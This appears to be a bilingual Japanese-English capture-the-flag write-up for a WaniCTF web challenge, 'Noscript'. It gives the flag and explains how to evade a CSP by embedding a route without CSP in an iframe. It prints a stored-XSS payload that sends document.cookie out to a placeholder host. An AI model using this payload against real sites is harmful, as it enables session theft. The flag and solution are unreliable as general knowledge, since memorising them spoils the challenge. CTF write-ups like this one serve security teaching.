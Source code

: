 ```yaml
---
title: "Noscript"
level: 3
flag: "FLAG{n0scr1p4_c4n_be_d4nger0us}"
writer: "hi120ki"
---
```


# Noscript

## 問題文

Ignite it to steal the cookie!

https://web-noscript-lz56g6.wanictf.org/

---

NOTE: In case the server is down, try the following backup server. 上記のサーバーが正しく動作していない場合は、次のバックアップサーバーを使用してください。

`web-noscript-ywu5dn.wanictf.org`

---

## 解法

`/user/{USER ID}` にアクセスすると、自由に入力可能なフォームが2つあります。
If you access `/user/{USER ID}`, there are two forms that you can freely input.

そしてAPIとしては`/user/{USER ID}`についてはCSPが設定されているため、`<script>`タグを使うことができません。
As for `/user/{USER ID}`, CSP is set, so you cannot use `<script>` tags.

しかし、`/username/{USER ID}`にはCSPが設定されていないため、`<script>`タグを使うことができます。
However, `/username/{USER ID}` does not have CSP set, so you can use `<script>` tags.

ここから1つめのフォームに`<script>`タグを使ってXSSを設定した後、2つめのフォームに`<iframe>`タグを使って`/username/{USER ID}`を埋め込むことで、`<script>`タグを実行させることができます。
From here, after setting up XSS using `<script>` tags in the first form, you can execute `<script>` tags by embedding `/username/{USER ID}` in the second form using `<iframe>` tags.

そして、XSSを使ってCookieを盗むことができます。
And you can steal the cookie using XSS.

```html
<script>fetch("https://example.com/?cookie=" + encodeURI(document.cookie));</script>
```

```html
<iframe src="/username/{USER ID}>"></iframe>
```

example.comはrequest binなどのサービスのURLを指定してください。
Please specify the URL of a service such as request bin.

そしてレポートフォームにURLを投稿することでCookieに設定されているフラグを取得することができます。
By posting the URL to the report form, you can get the flag set in the cookie.
